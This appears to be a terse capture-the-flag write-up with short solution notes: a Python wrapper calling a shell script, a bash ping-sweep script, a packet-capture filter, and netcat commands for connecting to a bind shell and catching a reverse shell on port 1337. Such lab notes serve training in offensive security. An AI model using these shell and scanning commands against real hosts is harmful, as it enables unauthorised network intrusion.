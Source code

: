     vi xDigg.py
    #--------------START_OF_PYTHON----------------#
    #!/bin/python3
    import subprocess, sys 
    intsx=sys.argv[1]
    subprocess.run(["./fox.sh", "%s"%(intsx)])
    #--------------END_OF_PYTHON----------------#
   
    #run access-loog with xDigg.py 
    /x/access-log xDigg.py
    {Xlag}
    
    
#### Ping Sweep :

    vi pps.sh
    #--------------START_OF_BASH----------------#
    #!/bin/bash
    ip=$1
    IFS=. read ip1 ip2 ip3 ip4 <<< "$ip"
    theip="$ip1.$ip2.$ip3"
    i=$(( $2 - 1 ))
    countd=$(( $3 - 1 ))
    until [ $i -gt $countd ]
    do
        i=$(( $i + 1 ))
        ping $theip.$i -c 1 -w 1 | grep "64 bytes" | cut -d " " -f 4 | tr -d ":"
    done
    #--------------END_OF_BASH----------------#
    ./pps.sh
    {Xlag}
    
    
#### Find the Password : 

  `tcp.stream eq 238`



    

#### Bind Shell connect to 4949 : 

    nc target.com 4949
    ls 
    flag.txt
    cat flag.txt
    {Xlag}
    
    
    
#### Reverse Shell connect to 1337 :    

    $Terminal 1 : 
      ./reverse-shell target.com 1337
    $Terminal 2 : 
      nc -l -v -p 1337
      cat flag.txt    
      {Xlag}
      